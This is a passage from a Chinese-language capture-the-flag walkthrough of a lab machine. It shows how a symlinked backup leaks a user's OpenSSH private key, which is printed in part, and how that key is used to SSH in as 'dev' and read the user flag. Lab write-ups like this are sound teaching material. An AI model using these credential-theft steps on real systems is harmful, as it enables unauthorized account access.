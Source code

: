 我们在那里看到了我们的符号链接，现在等待脚本运行。当新备份存在时，将其复制出来，这样它就不会被删除和解压缩:

```
ww-data@retired:/var/www/html$ cd /dev/shm
www-data@retired:/dev/shm$ cp /var/www/2022-06-25_11-47-04-html.zip .
www-data@retired:/dev/shm$ unzip 2022-06-25_11-47-04-html.zip 
Archive:  2022-06-25_11-47-04-html.zip
   creating: var/www/html/
   creating: var/www/html/js/
<SNIP>
```

现在，我们可以看到复制到该备份中的 id_rsa:

```
www-data@retired:/dev/shm/var/www/html$ cat id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAA
BAAABlwAAAAdzc2gtcnNhAAAAAwEAAQAAAYEA58qqrW05/urHKC
CqCgcIPhGka60Y+nQcngHS6IvG44gcb3w0HN/yfdb6Nzw5wfLeL
D4uDt8k9M7RPgkdnIRwdNFxleNHuHWmK0j7OOQ0rUsrs8LudOdk
<SNIP>
7rTyG3wbNka1sAAAALZGV2QHJldGlyZWQ=
-----END OPENSSH PRIVATE KEY-----
```

# SSH 作为开发人员

现在，我们可以以 dev 用户的身份将密钥粘贴到 Kali 和 ssh 上的一个文件中:

```
┌──(root㉿kali)-[~/htb/retired]
└─# nano id_rsa

┌──(root㉿kali)-[~/htb/retired]
└─# chmod 600 id_rsa         

┌──(root㉿kali)-[~/htb/retired]
└─# ssh -i id_rsa dev@10.10.11.154 
Last login: Mon Mar 28 11:36:17 2022 from 10.10.14.23
dev@retired:~$
```

在继续之前，让我们抓住用户标志:

```
dev@retired:~$ cat user.txt 
1908e78d7623086e78a6a7261db3528f
```

在我们的主文件夹中，我们发现了一个有趣的文件夹:

```
dev@retired:~$ ls -l
4 drwx------ 2 dev  dev  4096 Mar 11 14:36 activate_license
4 drwx------ 3 dev  dev  4096 Mar 11 14:36 emuemu
4 -rw-r----- 1 root dev    33 Jun 24 05:11 user.txt
```
